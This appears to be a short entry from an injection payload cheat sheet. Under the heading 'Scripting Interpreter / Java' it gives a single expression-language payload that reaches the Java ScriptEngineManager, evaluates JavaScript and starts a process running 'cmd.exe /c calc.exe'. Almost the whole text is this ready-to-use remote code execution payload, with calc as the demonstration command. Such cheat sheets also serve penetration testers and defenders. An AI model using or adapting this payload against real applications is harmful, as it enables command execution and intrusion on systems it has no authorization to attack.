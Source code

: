 # Scripting Interpreter

## Java

It uses an expression language.

```java
"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("var proc=new java.lang.ProcessBuilder[\\"(java.lang.String[])\\"]([\\"cmd.exe\\",\\"/c\\",\\"calc.exe\\"]).start();")
```